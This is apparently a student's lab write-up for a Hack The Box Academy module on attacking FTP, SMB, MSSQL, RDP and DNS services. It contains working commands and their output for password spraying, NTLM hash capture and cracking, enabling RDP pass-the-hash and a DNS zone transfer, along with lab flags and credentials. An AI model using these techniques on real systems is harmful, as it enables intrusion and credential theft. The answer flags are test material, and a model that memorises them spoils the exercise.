










# Attacking FTP

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.245.1 (ACADEMY-ATTCOMSVC-LIN)   

Life Left: 117 minute(s)  Terminate 

+ 1  What port is the FTP service running on?

Quét 10.129.245.1 không ra ftp nên thử host khác

```zsh
❯ nmap -sn 10.129.245.0/24
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-02 01:32 EDT
Nmap scan report for 10.129.245.1
Host is up (0.29s latency).
Nmap scan report for 10.129.245.118
Host is up (0.36s latency).
Nmap scan report for 10.129.245.130
Host is up (0.35s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 64.69 seconds
```

```zsh
❯ sudo nmap -sS -p- 10.129.245.130  -T 4 --min-rate 3000 -v -Pn
Nmap scan report for 10.129.245.130
Host is up (0.30s latency).
Not shown: 65493 closed tcp ports (reset)
PORT      STATE    SERVICE
21/tcp    open     ftp
22/tcp    open     ssh
25/tcp    open     smtp
53/tcp    open     domain
80/tcp    open     http
110/tcp   open     pop3
111/tcp   open     rpcbind
143/tcp   open     imap
993/tcp   open     imaps
995/tcp   open     pop3s
2570/tcp  filtered hs-port
7487/tcp  filtered unknown
7525/tcp  filtered unknown
8080/tcp  open     http-proxy
10807/tcp filtered unknown
15733/tcp filtered unknown
17412/tcp filtered unknown
19030/tcp filtered unknown
20648/tcp filtered unknown
21742/tcp filtered unknown
22748/tcp filtered unknown
22843/tcp filtered unknown
23273/tcp filtered unknown
25427/tcp filtered unknown
27525/tcp filtered unknown
27814/tcp filtered unknown
29206/tcp filtered unknown
29209/tcp filtered unknown
29468/tcp filtered unknown
29570/tcp filtered unknown
31948/tcp filtered iceedcp_tx
33458/tcp filtered unknown
37049/tcp filtered unknown
38603/tcp filtered unknown
42207/tcp filtered unknown
46969/tcp filtered unknown
57773/tcp filtered unknown
58260/tcp filtered unknown
60248/tcp filtered unknown
61980/tcp filtered unknown
65015/tcp filtered unknown
65039/tcp filtered unknown

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 42.81 seconds
           Raw packets sent: 123267 (5.424MB) | Rcvd: 69648 (2.786MB)
```

+ 1  What username is available for the FTP server?

```zsh
└──╼ [★]$ ftp 10.129.245.130 21
Connected to 10.129.245.130.
220 (vsFTPd 3.0.3)
Name (10.129.245.130:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||43937|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              38 May 30  2022 flag.txt
```


+ 1  Use the discovered username with its password to login via SSH and obtain the flag.txt file. Submit the contents as your answer.

```zsh
❯ cat flag.txt
HTB{0eb0ab788df18c3115ac43b1c06ae6c4}
```

# Attacking SMB

Target(s): 10.129.245.1 (ACADEMY-ATTCOMSVC-LIN)   

Life Left: 146 Terminate 

+ 1  What is the name of the shared folder with READ permissions?

```zsh
❯ smbmap -H 10.129.245.1
[+] IP: 10.129.245.1:445        Name: 10.129.245.1              Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        GGJ                                                     READ ONLY       Priv
        IPC$                                                    NO ACCESS       IPC Service (attcsvc-linux Samba)
```

+ 1  What is the password for the username "jason"?

```zsh
❯ crackmapexec smb 10.129.245.1 -u jason -p pws.list --local-auth
SMB         10.129.245.1    445    ATTCSVC-LINUX    [+] ATTCSVC-LINUX\jason:34c8zuNBo91!@28Bszh
```

+ 1  Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.
Không thể dùng mật khẩu:


Lấy key ssh



```zsh
❯ chmod 600 id_rsa
❯ ssh -i id_rsa jason@10.129.245.1
$ cat flag.txt  
HTB{SMB_4TT4CKS_2349872359}
```

# Attacking SQL Databases

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.230.155 (ACADEMY-ATTCOMSVC-WIN-02)   


 Authenticate to 10.129.230.155 (ACADEMY-ATTCOMSVC-WIN-02) with user "htbdbuser" and password "MSSQLAccess01!"

```zsh
❯ sqsh -S 10.129.230.155 -U htbdbuser -P 'MSSQLAccess01!' -h
```



Chúng ta không có quyền truy cập 2 database ở cuối.

+ 1  What is the password for the "mssqlsvc" user?

Bruteforce but no luck:


Thử capture hash

```zsh
❯ sudo impacket-smbserver share -smb2support ./share
```

```mssql
1> EXEC master..xp_dirtree '\\10.10.14.63\share\'
2> go
```

```zsh
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.230.155,49679)
[*] AUTHENTICATE_MESSAGE (WIN-02\mssqlsvc,WIN-02)
[*] User WIN-02\mssqlsvc authenticated successfully
[*] mssqlsvc::WIN-02:aaaaaaaaaaaaaaaa:2bb0838adbbcea7743b5e828cad05cf5:0101000000000000009aec3e51bbdb0107fd3b1d2fe8e80d00000000010010006e007700450062004200630061004b00030010006e007700450062004200630061004b00020010004f004b004c007500700058006e007300040010004f004b004c007500700058006e00730007000800009aec3e51bbdb0106000400020000000800300030000000000000000000000000300000ea4a8749c911d3ee21e7b12fc2136fdab3d749ef349608f271169c6999a125280a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00360033000000000000000000
[*] Closing down connection (10.129.230.155,49679)
[*] Remaining connections []
```


```zsh
❯ hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --show
MSSQLSVC::WIN-02:aaaaaaaaaaaaaaaa:2bb0838adbbcea7743b5e828cad05cf5:0101000000000000009aec3e51bbdb0107fd3b1d2fe8e80d00000000010010006e007700450062004200630061004b00030010006e007700450062004200630061004b00020010004f004b004c007500700058006e007300040010004f004b004c007500700058006e00730007000800009aec3e51bbdb0106000400020000000800300030000000000000000000000000300000ea4a8749c911d3ee21e7b12fc2136fdab3d749ef349608f271169c6999a125280a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00360033000000000000000000:princess1
```


+ 1  Enumerate the "flagDB" database and submit a flag as your answer.

```zsh
❯ sqsh -S 10.129.230.155 -U .\\mssqlsvc -P 'princess1' -h
```

```mssql
1> use flagDB
2> go
1> select * from tb_flag
2> go

        HTB{!_l0v3_#4$#!n9_4nd_r3$p0nd3r}    
```
# Attacking RDP


#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.203.13 (ACADEMY-ATTCOMSVC-WIN-01)   

Life Left: 110 Terminate 


 RDP to 10.129.203.13 (ACADEMY-ATTCOMSVC-WIN-01) with user "htb-rdp" and password "HTBRocks!"

+ 1  What is the name of the file that was left on the Desktop? (Format example: filename.txt)

```zsh
❯ xfreerdp3 /v:10.129.203.13  /u:htb-rdp /p:HTBRocks! /dynamic-resolution
```

+ 1  Which registry key needs to be changed to allow Pass-the-Hash with the RDP protocol?

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

+ 1  Connect via RDP with the Administrator account and submit the flag.txt as you answer.



```zsh
❯ xfreerdp3 /v:10.129.203.13  /u:Administrator /pth:0E14B9D6330BF16C30B1924111104824 /dynamic-resolution
```







# Attacking DNS
#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.203.6 (ACADEMY-ATTCOMSVC-LIN)   

Life Left: 118 minute(s)  Terminate 

+ 1  Find all available DNS records for the "inlanefreight.htb" domain on the target name server and submit the flag found as a DNS record as the answer.

Thêm vào file /etc/hosts:
```zsh
❯ tail -n 1 /etc/hosts
10.129.203.6    inlanefreight.htb
```

Thêm vào resolver.txt:

```zsh
❯ pwd
/home/kali/Desktop/learning/attacking_common_services/subbrute
❯ cat resolvers.txt
10.129.203.6
```

Chạy subbrute:

```zsh
❯ python3 subbrute.py inlanefreight.htb -s names.txt -r resolvers.txt
```



```zsh
❯ dig axfr hr.inlanefreight.htb @10.129.203.6 +short
inlanefreight.htb. root.inlanefreight.htb. 2 604800 86400 2419200 604800
"HTB{LUIHNFAS2871SJK1259991}"
ns.inlanefreight.htb.
127.0.0.1
inlanefreight.htb. root.inlanefreight.htb. 2 604800 86400 2419200 604800
```
